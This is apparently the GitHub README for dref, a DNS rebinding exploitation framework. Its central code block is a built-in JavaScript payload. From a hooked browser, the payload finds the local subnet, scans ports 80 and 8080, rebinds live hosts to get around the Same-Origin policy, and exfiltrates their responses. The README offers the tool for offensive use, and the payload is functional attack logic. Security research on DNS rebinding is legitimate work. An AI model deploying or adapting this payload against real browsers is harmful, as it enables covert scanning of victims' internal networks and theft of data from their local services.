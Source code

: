 <dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/logo.png">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <img src="https://travis-ci.com/mwrlabs/dref.svg?branch=master">
    <img src="https://codecov.io/gh/mwrlabs/dref/branch/master/graph/badge.svg">
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.svg">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/diagram.png">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [built-in payloads](https://github.com/mwrlabs/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/mwrlabs/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet(24)

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, {
      successCb: (code, headers, body) => {
        // ... and exfiltrate it
        session.log({code: code, headers: headers, body: body})
      }
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/exfiltrated.png">
  <img align="right" src="https://raw.githubusercontent.com/mwrlabs/dref/master/docs/img/arrow-bottom-right.png">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/mwrlabs/dref/wiki) to get started or check out [dref attacking headless browsers](https://labs.mwrinfosecurity.com/blog/from-http-referer-to-aws-security-credentials/) for a practical use case.

<dl>
  <p align="center">
    <sub><i>This is a development release - <b>do not use in production</b></i></sub>
  </p>
</dl>
